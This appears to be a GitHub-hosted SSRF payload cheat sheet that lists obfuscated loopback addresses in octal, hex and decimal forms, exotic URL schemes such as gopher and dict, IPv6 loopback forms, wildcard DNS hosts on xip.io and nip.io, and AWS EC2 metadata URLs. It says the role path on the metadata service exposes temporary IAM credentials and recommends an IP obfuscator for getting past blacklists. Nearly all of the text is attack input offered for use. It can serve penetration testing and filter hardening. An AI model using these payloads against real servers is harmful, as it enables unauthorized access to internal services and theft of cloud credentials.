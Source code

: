 ## SSRF

**How to SSRF by Jobert Abma

https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF

```
http://0177.1/
```

```
http://0x7f.1/
```

```
http://127.000.000.1
```

```
https://520968996
```

_Note:_ The latter can be calculated using http://www.subnetmask.info/


[**IP-Obfuscator**](https://github.com/C-REMO/Obscure-IP-Obfuscator)
Often come handy when backend application is using some sort of black-listing approach to block private address




**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
```

```
http://[::]
```

**Wildcard DNS**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Link:_ http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ http://nip.io

**AWS EC2 Metadata**

```
http://169.254.169.254/latest/meta-data/  
```

```
http://169.254.169.254/latest/meta-data/local-hostname
```

```
http://169.254.169.254/latest/meta-data/public-hostname
```

> If there is an IAM role associated with the instance, role-name is the name of the role, and role-name contains the temporary security credentials associated with the role [...]

_Link:_ http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html (includes a comprehensive Instance Metadata Categories table)
